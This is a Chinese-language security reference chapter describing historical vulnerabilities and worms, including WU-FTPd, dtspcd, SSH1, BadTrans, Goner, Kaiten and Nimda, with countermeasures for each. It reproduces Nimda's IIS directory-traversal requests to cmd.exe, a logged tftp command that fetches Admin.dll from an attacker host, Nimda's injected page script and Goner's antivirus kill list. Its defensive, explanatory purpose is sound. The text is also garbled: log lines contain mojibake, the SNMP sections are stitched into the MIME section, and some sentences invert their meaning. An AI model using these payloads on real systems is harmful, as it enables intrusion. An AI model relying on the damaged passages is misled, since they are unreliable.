**对策：** 在应用勘误更新之前，请确保已应用所有先前的勘误更新（针对您的系统）。可以通过在每个受影响的服务器上运行 up2date 命令来启动红帽更新代理的交互式进程；或者您可以访问红帽网站，选择您的服务器，并为该服务器安排勘误更新。可以使用 `rpm -Fvh [filename]` 命令来更新 RPM。多个 rpm 更新可以使用 `*.rpm` 代替 `[filename]` 来完成，但请确保在指定 `*.rpm` 的目录中/从中只包含您想要更新的 RPM。

#### *重启攻击*

**概要：** 远程攻击可重启几乎所有 Linux x86 机器。

**攻击状态：** 系统停止/重启。

**漏洞：** 所有版本。

**对策：** 升级到最新版本。

#### *远程 Root 攻击*

**概要：** 暴力破解远程 root 攻击几乎可在任何 Linux 机器上工作。

**攻击状态：** 未授权 root 访问。

**漏洞：** 所有版本。

**对策：** 升级到最新版本。

#### *远程 Root 攻击*

**概要：** 另一种可在几乎任何 Linux 机器上工作的 *imap* 远程 root 攻击。

**攻击状态：** 未授权 root 访问。

**漏洞：** 所有版本。

> *重启攻击和两次远程 Root 攻击的漏洞利用方法在《Hack Attacks Revealed》第二版中有描述，可在 TigerTools.net 上找到。*


 ## 应对措施：

从 *imapd.c* 中移除 *linkage.c*，并手动添加所需的驱动程序和认证器。

#### 木马化远程 shell 攻击

**提要：** 一种常见的木马化远程 shell 攻击几乎可以在任何 Linux 机器上运行。

**攻击状态：** 对 shell 的未授权访问。

**漏洞：** 所有版本。

**应对措施：** 使用端口拦截/监视工具，如 TigerWatch（参见附录 A），禁用 2400 端口。

#### 打印弱点

**提要：** Red Hat 漏洞允许在打印时读取文件。

**攻击状态：** 未授权访问，机密性泄露。

**漏洞：** 当文件正在被打印时，它们也可能在 dSAFER 模式下被读取。

**入侵：** PostScript 解释器 Ghostscript 使用 *file* 和 *run* 等内部命令。dSAFER 标志旨在通过限制对这类命令的访问来保护免受使用恶意 PostScript 命令的攻击。然而，它并不是为了阻止攻击者查看这些文件而设计的。

**应对措施：** 在应用勘误更新之前，请确保已应用所有以前的勘误更新（针对您的系统）。可以在每台受影响的服务器上运行更新代理，通过发出 up2date 命令来启动 Red Hat Update Agent 交互过程；或者您可以访问 Red Hat 网站，选择您的服务器，并为该服务器安排勘误更新。RPM 可以使用 `rpm -Fvh [filename]` 命令进行更新。可以使用 `*.rpm` 代替 [filename] 来完成多个 rpm 更新，但请确保您要更新的 RPM 仅包含在您指定 `*.rpm` 的目录中。

#### OpenSSH 漏洞

**提要：** Red Hat 安全通告：远程用户可以绕过 authorized_keys2。

**攻击状态：** 发送了两个混淆数据包而非一个。

**漏洞：** 配置为使用 subsystem 功能提供 SFTP 访问的 OpenSSH 可能导致发送两个混淆信息数据包而非一个。

**入侵：** 在 OpenSSH 2.9.9 之前的版本中，使用带有 subsystem 功能的 SFTP 访问时，远程用户可以绕过 authorized_keys2 的 "command="。SSH 包含试图混淆使用被动监控的攻击者的例程。这些数据包有时被称为 *混淆数据包 (confounding packets)*。在 SSH 2.9 版本中，当用户完成发送密码时，代码中的一个错误会导致发送两个混淆数据包而非一个。

**应对措施：** 在应用勘误更新之前，请确保已应用所有以前的勘误更新（针对您的系统）。可以在每台受影响的服务器上运行更新代理，通过发出 up2date 命令来启动 Red Hat Update Agent 交互过程；或者您可以访问 Red Hat 网站，选择您的服务器，并为该服务器安排勘误更新。RPM 可以使用 `rpm -Fvh [filename]` 命令进行更新。可以使用 `*.rpm` 代替 [filename] 来完成多个 rpm 更新，但请确保您要更新的 RPM 仅包含在您指定 `*.rpm` 的目录中。

#### WU-FTPd 漏洞

**提要：** Washington 大学的文件传输协议守护进程 (WU-FTP) 存在漏洞，可能导致远程 root 访问。

**攻击状态：** 未授权 root 访问，任意代码执行，服务停止。

**漏洞：** WU-FTP 守护进程被许多 UNIX 和 Linux 系统用于提供 FTP 服务，通常具有 root 权限。存在的漏洞可能允许远程攻击者在受影响系统上执行任意代码。

**入侵：** 两个漏洞会导致这种情况。首先，WU-FTPd 不能正确处理文件名 *globbing*，该术语表示选择多个文件和位置的能力。然而，WU-FTP 没有使用操作系统内的库，而是实现了自己的代码来完成此功能。WU-FTPd 创建一个堆来存储这些多选信息。使用堆信息作为比较，代码可以评估和识别无效语法信息。可以发送一个特定字符串到 globbing 代码，该字符串不会导致故障发生。这样做会使代码像没有发生错误一样运行。当这种情况发生时，未分配的内存可能会被释放。该区域可用于放置数据，从而允许攻击者以与 WU-FTP 守护进程相同的权限执行任意代码。

第二个 WU-FTP 漏洞可能发生在 WU-FTP 配置为接受使用 auth 或 authd (RFC931) 认证的入站连接时。当 WU-FTP 配置为使用此认证并以调试模式运行时，连接信息会被记录。对 identd 响应中包含的信息执行了充分的输入验证。由于这个原因，攻击者可以设计一个响应，允许以与 WU-FTP 守护进程相同的权限执行任意代码。

这两个漏洞都包含可以登录到存在这些漏洞的服务器的用户，包括匿名访问。如果尝试不成功，可能会导致 FTP 服务停止。

**应对措施：** 执行以下操作：

- 从您的 UNIX 或 Linux 版本的供应商处安装最新的补丁。
- WU-FTP 可以编译以在许多版本的 UNIX 或 Linux 上运行；如果您的供应商没有随附其版本的 WU-FTP，请应用提供的源代码补丁。
- 如果您不需要 WU-FTP 访问，请禁用它。
- 如果您正在使用 WU-FTP，请仅向需要它的用户授予访问权限。这包括在必要时禁用匿名访问。

#### Syncookie 漏洞

**提要：** Red Hat 内核 2.2 和 2.4 存在 syncookie 漏洞，可能允许拒绝服务攻击。

**攻击状态：** 拒绝服务 (DoS)。

**漏洞：** Red Hat Linux 使用 syncookies 来防御 synflood 类型的 Dogz 攻击。Syncookies 默认禁用，但启用时，它们使用加密挑战协议来帮助确保在 synflood DoS 攻击期间有效的用户连接能够保持活动状态。

**入侵：** synflood 攻击包括向服务器发送多个 syn 数据包，试图使服务器不得不响应如此多的 syn 请求，以至于无法处理有效的响应 (syn ack)。当启用 syncookies 且服务器"受到攻击"时，服务器将返回第一阶段的挑战 (syn)，并且仅接受第二阶段的挑战 (syn ack)，这有效地抵消了 synflood 攻击。然而，如果攻击者拥有（或猜测）防火墙端口的加密挑战，并能够强制系统进入洪水保护模式，系统就会存在漏洞。如果攻击者能够使用加密信息让服务器接受一个伪造的 cookie，就可以建立与服务器的连接。

**应对措施：** 在应用勘误更新之前，请确保已应用所有以前的勘误更新（针对您的系统）。可以在每台受影响的服务器上运行更新代理，通过发出 up2date 命令来启动 Red Hat Update Agent 交互过程；或者您可以访问 Red Hat 网站，选择您的服务器，并为该服务器安排勘误更新。RPM 可以使用 `rpm -Fvh [filename]` 命令进行更新。可以使用 `*.rpm` 代替 [filename] 来完成多个 rpm 更新，但请确保您要更新的 RPM 仅包含在您指定 `*.rpm` 的目录中。

#### Ccharge 缓冲区溢出

**提要：** CDE 子进程控制服务存在缓冲区溢出漏洞。

**攻击状态：** 未授权 root 访问，任意代码执行，系统崩溃。

**漏洞：** CDE 是 Linux 和 UNIX 的图形用户界面，使用网络守护进程 dtspcd。一个修改过的数据包可能导致缓冲区溢出，允许攻击者以 root 权限执行任意代码。

**入侵：** 通过 inetd 或 xinetd 的 CDE 客户端请求可以生成 dtspcd 守护进程，这是一个 CDE 子进程控制服务，处理来自客户端的请求以远程启动应用程序，通常使用 TCP 端口 6112 并以 root 权限运行。dtspcd 使用的共享库可能在客户端协商过程中发生缓冲区溢出。与许多缓冲区溢出情况一样，攻击者可以运行具有 root 权限的恶意代码。当向固定的 4K 缓冲区发送指定大于 4K 值的修改数据包时，就会发生溢出，导致 4K 缓冲区末尾的内存被覆盖。

**应对措施：** 禁用所有不需要的服务——但在了解这将对您的环境产生什么总体影响之前不要这样做。例如，可以禁用 6112 端口，但某些互联网游戏使用 6112 端口，这可能需要考虑在内。

一些制造商已发布针对此漏洞的补丁。查看制造商的网站以确定是否有补丁可用。在某些系统上，dtspcd 默认启用，因此如果没有补丁可用，请仔细考虑是否需要它；如果不需要，请显式拒绝或禁用它。这可以通过阻止端口、使用防火墙产品或禁用服务来实现。可以通过注释掉启用服务的行来禁用该服务。您可以通过查看以下内容之一来确定 dtspcd 是否已启用：

 /etc/services
dtspc 6112/tcp

or

/etc/inetd.conf
dtspc stream tcp nowait root /usr/dt/bin/dtspcd /usr/dt/bin/dtspcd

#### SSH1 漏洞

**概要：** 针对 CRC32 补偿攻击检测器的漏洞可能导致获取完整的系统访问权限。

**攻击状态：** 未授权 root 访问、拒绝服务（DoS）、任意代码执行以及完全系统入侵。

**漏洞：** SSH1 协议中存在的漏洞可能允许攻击者以 SSH 守护进程权限执行任意代码。使用针对补偿攻击检测器的暴力破解攻击，可能实现完全系统入侵。

**入侵：** 如果针对补偿攻击检测器发起暴力破解攻击，攻击者可能获得对受影响机器的完全访问权限。报告显示系统日志中可能出现大量类似如下内容的消息：

```
hostname sshd[xxx]: Disconnecting: Corrupted check bytes on input.
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network
    attack detected
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network
    attack detected
```

系统被入侵后，报告显示会安装木马、用于查找其他脆弱系统的网络扫描设备，以及用于隐藏入侵者行为并允许未来访问的其他项目。

**对策：** 查阅制造商网站获取最新安全信息。如有可能，升级到最新版本的 SSH。升级后，确保使用 SSHv2，因为 SSH2 可能使用 SSH1 的实现信息。如果无法升级，请为正在使用的 SSH 版本应用所有最新补丁。如果不需要 SSH，请拒绝访问该服务。

#### 网络时间守护进程漏洞

**概要：** Red Hat 网络时间守护进程漏洞可能导致未授权 root 访问。

**攻击状态：** 未授权 Root 访问、拒绝服务（DoS）。

**漏洞：** 网络时间守护进程（NTD）允许系统时钟与 Internet 上的指定时间服务器同步。xntpd（Red Hat 6.2 及更早版本）和 ntpd（Red Hat 7.0）存在缓冲区溢出漏洞。

**入侵：** 远程攻击者可以设计代码利用此漏洞，并以时间进程（xntpd 或 ntpd）的权限运行任意代码，通常为 root。

**对策：** 在应用勘误更新之前，请确保已应用所有先前的勘误更新（针对您的系统）。可以通过在受影响的每台服务器上运行 up2date 命令来启动 Red Hat 更新代理交互式进程；或者您可以访问 Red Hat 网站，选择您的服务器，并为该服务器安排勘误更新。RPM 可以使用 `rpm -Fvh [filename]` 命令进行更新。多个 rpm 更新可以使用 `*.rpm` 代替 `[filename]` 来完成，但请确保指定 `*.rpm` 的目录中只包含您想要更新的 RPM。

### Macintosh

#### *宏执行*

**概要：** Microsoft Excel 和 PowerPoint 应用程序可能允许攻击者使用格式错误的宏获取特权访问。

**攻击状态：** 文件控制、特权访问、配置控制、任意代码执行。

**漏洞：** 以下 Excel 和 PowerPoint 平台存在漏洞，可能允许攻击者运行任意代码并以用户权限获取访问权限：

- Macintosh
  - Microsoft Excel
  - Microsoft PowerPoint

**入侵：** 除了 Excel 和 PowerPoint，Microsoft Office 套件中的其他产品也可能受此漏洞影响。通常，在宏执行之前，系统会询问用户是否希望执行该宏。此漏洞使得攻击者可以设计一个宏来绕过此安全检测并自动执行。该宏可能允许执行任意代码以获取特权访问（以脆弱系统上用户的权限）。如果成功，攻击者可能具有读取、删除或修改用户有权访问的任何驱动器（包括共享）上的文件/数据的能力。此外，攻击者可能能够发送邮件和进行配置更改。如果用户具有管理权限，他或她也可能获得此权限，从而能够修改其他系统。

**对策：** 应用 Microsoft 提供的最新补丁。确保病毒防护为最新并已启用。尽可能将 Microsoft 产品中的安全设置设为最高级别。如有可能，更新到最新版本的 Microsoft 产品（Microsoft 不再继续支持某些旧版本的产品）。对用户进行关于宏及其恶意使用潜力的教育。

### Microsoft Windows

对于 Microsoft（www.microsoft.com），我们将介绍针对以下漏洞利用的对策：缓冲区溢出、恶意代码执行、木马/蠕虫实现、密码破解、系统崩溃和系统控制。

#### *宏的自动执行*

**概要：** Microsoft Excel 和 PowerPoint 应用程序可能允许攻击者使用格式错误的宏获取特权访问。

**攻击状态：** 文件控制、特权访问、配置控制、任意代码执行。

**漏洞：** 以下 Excel 和 PowerPoint 平台存在漏洞，可能允许攻击者运行任意代码并以用户权限获取访问权限。

- Windows
  - Microsoft Excel 2000, 2002
  - Microsoft PowerPoint 2000, 2002

**入侵：** 除了 Excel 和 PowerPoint，Microsoft Office 套件中的其他产品也可能受此漏洞影响。通常，在宏执行之前，系统会询问用户是否希望执行该宏。此漏洞使得攻击者可以设计一个宏来绕过此安全检测并自动执行。该宏可能允许执行任意代码以获取特权访问（以脆弱系统上用户的权限）。如果成功，攻击者可能具有读取、删除或修改用户有权访问的任何驱动器（包括共享）上的文件/数据的能力。此外，攻击者可能能够发送邮件和进行配置更改。如果用户具有管理权限，攻击者也可能获得管理权限，从而能够修改其他系统。

**对策：** 应用 Microsoft 提供的最新补丁。确保病毒防护为最新并已启用。尽可能将 Microsoft 产品中的安全设置设为最高级别。如有可能，更新到最新版本的 Microsoft 产品（Microsoft 不再继续支持某些旧版本的产品）。对用户进行关于宏及其恶意使用潜力的教育。

#### *Microsoft Internet Explorer 中的缓冲区溢出*

**概要：** 运行使用 Microsoft Internet Explorer HTML 渲染引擎的应用程序的系统易受缓冲区溢出攻击。

**攻击状态：** 未授权访问、拒绝服务（DoS）和恶意代码分发。

**漏洞：** Internet Explorer 包含对嵌入式对象的支持，如 Active X、Java 小程序以及 `<EMBED>` 指令的使用。这些 `<EMBED>` 命令旨在增强 Web 体验，并实现播放音乐、查看视频和执行多媒体文件等功能。

**入侵：** Internet Explorer 5.5 和 6.0 版本受影响；由于 Outlook 和 Outlook Express 使用 Internet Explorer 渲染引擎，它们也容易受到攻击。此外，该漏洞可能不限于这些应用程序。其他使用 IE 引擎渲染 HTML 的应用程序也可能受影响。`<EMBED>` 命令定义了源文件名和路径，允许这些文件被执行。攻击者可以利用这一点以该用户的权限运行任意代码。此类代码可能包括病毒、木马、蠕虫等。

**对策：** 应用 Internet Explorer 的最新补丁和最新的 Outlook 安全更新。这是推荐的修复方法，因为这些补丁包含其他 IE 和 Outlook 问题的修复。禁用 Active X 控件和插件也可以防止这些文件在无法应用补丁的系统上被处理。但是请注意，仅应用 Outlook 安全更新并不能修复 IE 漏洞。因此，建议尽可能同时应用两个补丁。

#### *简单网络管理协议（SNMP）中的漏洞*

**概要：** 在使用 SNMP v1 与多个启用 SNMP 的设备时，存在多个漏洞。


## W32/Myparty 恶意代码

### 概要

W32/Myparty 蠕虫是一种可不加区分实施的邮件炸弹形式。

### 攻击状态

CPU、网络和电子邮件服务拥塞，以及潜在的拒绝服务（DoS）。

### 漏洞

恶意代码（包括蠕虫和病毒）会严重影响业务连续性目标。往小了说，它们会分散完成工作所需的注意力；往大了说，它们可能造成严重破坏。虽然不能被认定为"严重破坏"，但 W32/Myparty 蠕虫确实有可能导致业务中断。不幸的是，许多这类蠕虫是专门为了攻击微软产品而编写的。

### 入侵

W32/Myparty 蠕虫是一种电子邮件蠕虫，它利用毫无戒心的用户机器发送大量电子邮件。邮件伪装的主题为"New photos from my party!"，正文包含"Hello!"一词及以下段落：

> My party... It was absolutely amazing!
>
> I have attached my web page with new photos!
>
> If you can please make color prints of my photos. Thanks!

邮件还带有一个名为 www.myparty.yahoo.com 的附件，该附件有两个已知变种；虽然不同，但两者执行相同的操作。第一个在用户的启动文件夹中创建名为 mtask.exe 的文件。第二个将文件 regctrl.exe 写入 Windows 9.x 机器的 c:\Recycled 文件夹。附件能够这样做是因为它具有 .com 扩展名。虽然通常这指的是互联网上的顶级域名，但在这里它被用作可执行文件（.com 和 .exe 等文件可以在本地机器上执行）。邮件看似完全无害，实则不然。一旦新创建的文件（mtask.exe 和 regctrl.exe）存在于机器上并被执行，它们就会扫描机器的文件以查找通讯录。任何获取到的电子邮件地址都会收到附带该蠕虫的邮件。

此外，发送电子邮件可能是与时间相关的，也就是说如果日期设置为 1 月 25 日至 29 日，蠕虫会将自己附加到邮件中；如果不是，则可能不会。然而，有足够的证据表明存在不遵循此模式的变种。

### 对策

在可能的情况下，关闭电子邮件客户端的自动预览选项。确保使用充分且最新的病毒防护。对终端用户进行良好的电子邮件实践教育：指示他们在不认识发件人或标题看起来与工作无关时要小心。同时警告他们在打开电子邮件附件时要小心。最后，使用一款防火墙产品，允许删除已知的恶意流量和消息类型。

## AOL ICQ 中的缓冲区溢出

### 概要

美国在线（AOL）ICQ 程序存在缓冲区溢出漏洞。

### 攻击状态

未经授权访问、拒绝服务（DoS）。

### 漏洞

许多程序允许用户通过互联网相互交互式通信（直拨或拨号）。一些更常见的程序包括 MSN Messenger、美国在线即时通讯（AIM）和 ICQ。这类程序还具有允许用户共享其他类型信息的功能，包括语音和视频，以及参与在线游戏。为了实现这一点，会从一个用户向另一个用户发送功能请求消息，请求接收者使用另一个应用程序参与（例如第三方游戏）。对于 2001B 之前的 ICQ 版本，这可用于导致缓冲区溢出。

### 入侵

ICQ 是 AOL 时代华纳的子公司。任何使用早于 2001B 的 Windows 版 ICQ 的用户都容易受到此类攻击。ICQ 可用于在 ICQ 服务器用户之间交换消息，或通过建立直接连接进行交换。当在处理参与第三方应用程序的请求期间，或使用修改后的请求进行直接连接期间处理类型长度值（TLV）为 0x2711 时，漏洞可能发生。

### 对策

ICQ 2001B 版本包含一个外部插件，允许 ICQ 服务器引导易受攻击的客户端通过该外部插件禁用漏洞。2001B 之前的所有版本都不包含该外部插件，因此容易受到攻击。AOL 建议升级到 2001B beta v5.18 build 3659 版本。为了阻止试图利用此漏洞的消息，AOL 也修改了 ICQ 服务器。然而，攻击者仍有可能通过其他手段造成缓冲区溢出状况，包括欺骗和中间人攻击。因此，如果不需要该服务，请将其禁用。

## 通用即插即用（UPnP）服务中的缓冲区溢出

### 概要

通用即插即用（UPnP）漏洞可能允许在 Windows XP、Windows ME、Windows 98 和 Windows 98SE 上执行任意代码。

### 攻击状态

拒绝服务（DoS）、管理员权限访问和未经授权的系统使用。

### 漏洞

微软的 UPnP 服务存在漏洞，如果启用，可能允许攻击者以管理员访问权限执行任意代码。

### 入侵

UPnP 服务在 Windows XP 上默认启用，在 Windows ME 上默认禁用（某些计算机制造商在其 ME 机器上启用 UPnP）。UPnP 可以在运行 Windows 98 和 98SE 的 PC 上选装。存在两个主要漏洞。首先，NOTIFY 指令用于通告 UPnP 设备的可用性。利用处理这些指令的代码中存在的缓冲区溢出漏洞，攻击者可以通过向易受攻击的 PC 发送任意或恶意的 NOTIFY 指令来获得管理员权限访问（包括完全的系统控制）。第二个漏洞可能允许攻击者对受影响的机器发起 DoS 攻击，或利用该机器对另一台机器发起 DoS 攻击。

### 对策

可以采取两种对策。第一种是为受影响的操作系统应用适当的微软补丁。第二种是拒绝外部对 UPnP 使用的端口 1900 和 5000 的访问。这可以通过在过滤不需要的流量的设备（通常是防火墙）上阻止这些端口来实现。

## MIME 漏洞

### 概要

微软 Internet Explorer 的漏洞可能允许入侵者执行任意代码。

### 攻击状态

未经授权访问、拒绝服务（DoS）和恶意代码传播。

### 漏洞

在使用 Internet Explorer 6.0、Outlook、Outlook Express 或其他使用 Internet Explorer 渲染引擎的软件时，本应被阻止的文件可能会被打开和/或执行。

### 入侵

由于网页可以包含文件附件，因此存在一种确定文件类型的方法。这是通过 MIME 头实现的，特别是 Content Disposition 和 Content Type。它们用于确定文件是否可以"安全"打开。然而，它们仅用于判定过程，而非文件执行过程。

如果 MIME 头错误地表示文件类型，本不应被处理的文件可能会被处理。例如，如果 MIME 将可执行文件（.exe）表示为 TIF，MIME 会认为该文件没问题并允许其执行。这将允许攻击者运行原本无法以用户权限执行的代码。

### 对策

- 如果未使用 SNMP，请将其禁用。如果正在使用，请应用适当的补丁（咨询供应商）。

- 将字符串从默认值更改，并确保在所有需要通信和共享信息的设备上一致地完成此操作。

- 为 SNMP 流量使用单独的管理网络，而不是允许其在生产网络上运行。

- 在适当的情况下过滤入站和出站 SNMP 流量。这可以使用端口过滤技术完成，同时仅允许来自可信来源的 SNMP 流量。

- 在实施任何更改之前，先通盘考虑计划。


 **应对措施：** 应用 Microsoft 提供的最新 IE 补丁。如果无法做到，请禁用所有安全区域内的文件下载。请注意，禁用文件下载将会改变 IE 的功能。

### **W32/Goner 蠕虫**

**概要：** W32/Goner 蠕虫可以禁用并删除杀毒软件，并导致拒绝服务问题。

**攻击状态：** 禁用杀毒软件、拒绝服务（DoS）。

**漏洞：** W32/Goner 是一种可通过电子邮件传播或经由 W32/Goner 发起的文件传输传播的蠕虫。它会扫描用户计算机上的 Microsoft Outlook 通讯簿和 ICQ 联系人列表。利用从通讯簿获取的信息，它会向通讯簿中找到的所有用户发送电子邮件。它会使用 ICQ 联系人列表尝试与在线用户发起文件传输。如果在线用户接受文件传输请求，W32/Goner 就会将自身副本发送给该用户。

**入侵：** 当用户通过电子邮件收到该蠕虫时，邮件将显示为以下格式。

主题：你好！
正文：你好吗？
当我看到这个屏幕保护程序时，我立刻想到了你。
我很着急，我保证你会喜欢的！

邮件还会包含一个名为 gone.scr 的文件附件。这使用户误以为该蠕虫是一个合法的屏幕保护程序，而实际上它是一个恶意文件。当文件执行时，它会显示一个启动画面和一条错误消息。同时在执行时，蠕虫会修改受感染机器上的注册表，以便在后续重启时自动执行。它将 scr.exe 的副本放置在 \\windows\\system32 或 \\winnt\\system32 目录中。它还试图终止正在运行的杀毒软件的进程并删除相关文件。它还会特别针对以下文件/程序。如果识别出其中任何文件，该进程将被停止，蠕虫会尝试删除找到该文件目录中的所有文件。如果无法删除这些文件，它还可能创建一个 WININIT.INI 文件，重启时将使用 WININIT.INI 文件尝试删除这些文件。

| _AVP32.EXE | ESAFE.EXE | TDS2-98.EXE |
| _AVPCC.EXE | FEWEB.EXE | TDS2-NT.EXE |
| _AVPM.EXE | FRW.EXE | VP32.EXE |
| APLICA32.EXE | ICLOAD95.EXE | VPCC.EXE |
| AVCONSOL.EXE | AVP.EXE | VPM.EXE |
| AVP32.EXE | AVPCC.EXE | VSECOMR.EXE |
| CFINET.EXE | ICLOADNT.EXE | VSHWIN32.EXE |
| ICMON.EXE | ICSUPP95.EXE | VSSTAT.EXE |
| ICSUPPNT.EXE | LOCKDOWN2000.EXE | VW32.EXE |
| PCFWallIcon.EXE | PW32.EXE | WEBSCANX.EXE |
| SAFEWEB.EXE | ZONEALARM.EXE | |

**应对措施：** 尽可能关闭电子邮件客户端中的"自动预览"选项。确保使用充分且最新的病毒防护。对终端用户进行良好的电子邮件实践教育：指导他们在不认识发件人，或主题看起来与工作无关时保持警惕。此外，告知他们在打开带有附件的邮件时要小心。如果对邮件的安全性有任何疑问，告知他们在执行附件之前先扫描邮件和附件。最后，使用能够删除已知恶意流量和消息类型的防火墙产品。

### **W32/BadTrans 蠕虫**

**概要：** W32/BadTrans 蠕虫可以允许执行任意代码；它还会记录键盘击键信息。

**攻击状态：** 任意代码执行、拒绝服务（DoS）、机密性破坏。

**漏洞：** 运行 Microsoft Windows 95、98、98SE、ME、NT 和 2000 的系统在收到并打开蠕虫所附带的邮件后可能会感染该蠕虫。

**入侵：** W32/BadTrans 蠕虫是一种带有文件附件的电子邮件蠕虫。附件的文件名因邮件而异。该文件有两个文件扩展名：实际扩展名和一个用于让 Windows 隐藏真实文件扩展名的扩展名，这可能使文件看起来是另一种文件类型。执行时，蠕虫会将自身副本作为 kernel32.exe 写入 \windows 目录。如果该文件作为系统服务运行，将不会在默认任务列表中显示。当 kernel32 文件执行时，它会将另外两个文件都写入 \windows\system 目录。这些文件是 kdll.dll 和 cp_25389.nls。kdll.dll 文件允许将键盘击键记录到 cp_25389.nls 文件中。注册表也会被修改，如下所示，以确保蠕虫在后续重启时自动启动：

```
"HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce\Kernel132 = "kernel32.exe"
```

蠕虫还会将自身副本发送给未回复邮件的用户，或基于从受感染系统其他文件获取的信息。该病毒的变种还可以在受感染系统上放置特洛伊木马。蠕虫试图利用两个影响运行 Microsoft Windows 操作系统 PC 的已知漏洞来完成所有这些操作。其中一个漏洞允许某些 MIME 标头执行任意代码。即使在已修补 MIME 漏洞的系统上，通过执行附件仍然可能感染机器。如果用户手动启动附件，或者用户对要求确认执行附件的消息回答"是"，机器就会被感染。

**应对措施：** 如果可能，升级到最新版本的 Internet Explorer。如果无法做到，请至少将机器升级到 5.0 版本并应用所有最新补丁，包括针对"嵌入式 MIME 类型的自动执行"的补丁。

尽可能关闭电子邮件客户端中的"自动预览"选项。确保使用充分且最新的病毒防护。对终端用户进行良好的电子邮件实践教育：指导他们在不认识发件人，或主题看起来与工作无关时保持警惕。告知他们在打开带有附件的邮件时要小心。最后，使用能够删除已知恶意流量和消息类型的防火墙产品。

### **Kaiten 恶意代码**

**概要：** Kaiten 代码可以允许攻击者访问系统，并在受危害的系统上运行任意代码和命令。

**攻击状态：** 未经授权的访问、拒绝服务（DoS）、配置控制。

**漏洞：** Microsoft SQL Server 或 SQL Server 2000；Microsoft SQL Server 2000 桌面引擎；启用了混合模式安全性的 Microsoft Data Engine 1.0；以及 Tumbleweed Secure Mail 4.3、4.5 和 4.6 版本容易受到 Kaiten 攻击。一旦感染，攻击者可以使用 xp_cmdshell 以 SQL Server 服务的权限执行任意代码和命令。

**入侵：** Kaiten 可以通过利用 Microsoft Data Engine 和 MS SQL 中的空默认 sa 密码来安装。一旦访问了易受攻击的系统，就会使用 xp_cmdshell 与远程系统建立 FTP 会话，从而将 Kaiten 的副本传输到易受攻击的系统。Kaiten 执行后，它会与 Internet 中继聊天服务器（IRC）在 TCP 端口 6667 上建立连接。服务器现在在端口 6667 上监听后，远程攻击者可以向服务器发出命令，包括运行 Kaiten 内置的扫描和/或 DDoS 应用程序。这意味着受感染的机器可以用于对其他机器发起攻击。有三个文件可以帮助识别机器是否已被 Kaiten 感染：

- Rpcloc32.exe
- Dnsservice.exe
- Win32mon.exe

如果这些文件中的任何一个存在，则系统很可能已被感染，因此您应该执行进一步的测试以确定系统是否被感染。

**应对措施：** 不要使用空密码。如果在安装过程中使用了空密码，请确保为 sa 账户输入密码。如果选择了默认密码，请确保将其从默认值更改。使用良好的密码选择标准。如果服务不需要对外部可用，请确保阻止适当的 TCP 端口（在本例中为 1433 和 6667），必要时包括入站和出站。入侵检测系统也可以帮助识别可疑活动。

### **Nimda 蠕虫**

**概要：** Nimda 蠕虫可能导致系统完全沦陷。

**攻击状态：** 系统完全沦陷、拒绝服务（DoS）。

**漏洞：** Nimda 蠕虫可以感染运行 Windows 95、98、98SE、ME、NT 和 2000 的 Microsoft 系统，包括 NT 和 2000 服务器。

**入侵：** Nimda（"admin"反向拼写）是一种试图通过多种方式传播的蠕虫，包括电子邮件、感染本地文件和网络共享上的文件，以及利用目录遍历漏洞感染易受攻击的 IIS 服务器，并扫描由 Sadmind 和 Code Red II 等其他特洛伊木马留下的后门。当 Web 服务器被感染时，浏览该 Web 服务器的客户端也可能被感染。

Nimda 使用 .htm 文件和 MAPI 服务获取电子邮件地址，使用能够识别"看起来像"电子邮件地址的字符串的模式匹配方案来发送病毒。然后 Nimda 使用 MIME 编码的电子邮件附件将这些地址发送给自己。此过程每 10 天重复一次。

此 MIME 编码的电子邮件有两部分：一个 MIME 类型 text/html（不包含任何文本），以及一个看起来是 audio/x-wav 的附件，但实际上是 readme.exe 文件，执行后会激活 Nimda 蠕虫。


Nimda蠕虫还会通过修改实际应用程序的副本创建木马应用程序。当调用该应用程序时，运行的是木马副本，而非真正的副本，这导致Nimda蠕虫在实际程序执行之前就先执行了。其中一些被修改的程序包括：

- 在服务器上，Nimda会创建一个guest（来宾）帐户，并将其分配到Administrator（管理员）组，同时允许将C:驱动器以c$的形式共享。

- 在被感染的服务器上，Nimda会以.eml或.nws的文件扩展名写入自身的副本。如果服务器中包含扩展名为.html或.asp的目录，则每个文件都会被修改以包含以下Java代码：

```
<script language="JavaScript">
window.open("readme.eml", null, "resizable=no, top=6000, left=6000")
</script>
```

一旦被修改，该蠕虫就可以传播到浏览该网站的易受攻击的客户端。

- 被感染的机器还会扫描其他易受攻击的IIS系统。如果找到一个，Nimda会尝试使用TFTP（UDP端口69）将蠕虫下载到易受攻击的系统。如果被感染的机器正在记录TCP端口80的流量，日志中将包含类似以下内容的信息：

```
GET /scripts/root.exe?/c+dir
GET /MSADC/root.exe?/c+dir
GET /c/winnt/system32/cmd.exe?/c+dir
GET /d/winnt/system32/cmd.exe?/c+dir
GET /scripts/..%5c../winnt/system32/cmd.exe?/c+dir
GET /_vti_bin/..%5c../..%5c../..%5c../winnt/system32/cmd.exe?/c+dir
GET /_mem_bin/..%5c../..%5c../..%5c../winn貘遷锖system32/cmd.exe?/c+dir
GET /msadc/..%5c../..%5c../..%5c/..錇饐j../..錇饐j../..錇饐j../winnt/system32/cmd.exe?/c+dir
GET /scripts/..錇饐j../winnt/system32/cmd.exe?/c+dir
GET /scripts/..錇�/../winnt/system32/cmd.exe?/c+dir
GET /scripts/..錇�錇&#xFFFD;../winnt/system32/cmd.exe?/c+dir
GET /scripts/..錇饐j../winnt/system32/cmd.exe?/c+dir
GET /scripts/..%35c../winnt/system32/cmd.exe?/c+dir
GET /scripts/..%35c../winnt/system32/cmd.exe?/c+dir
GET /scripts/..%5c../winnt/system32/cmd.exe?/c+dir
GET /scripts/..%2f../winnt/system32/cmd.exe?/c+dir
```


```

GET /scripts/..%2f../winnt/system32/cmd.exe?/c+dir

**对策：** 由于Nimda蠕虫使用多种方法进行传播，因此很难控制。要验证系统是否感染了Nimda蠕虫，请检查以下内容：

- 系统中存在root.exe文件。

- admin.dll文件存在于C:\、D:\或E:\驱动器中所有或其中一个的根目录。

- IIS日志中存在`/c+tftp%20-i%20x.x.x.x%20GET%20Admin.dll%20d:\Admin.dll 200`字符串。该字符串中的x.x.x.x部分表示攻击系统的IP地址（可能是另一台被感染的系统）。

- .eml或.nws扩展名的文件出现在不应该存在的位置。

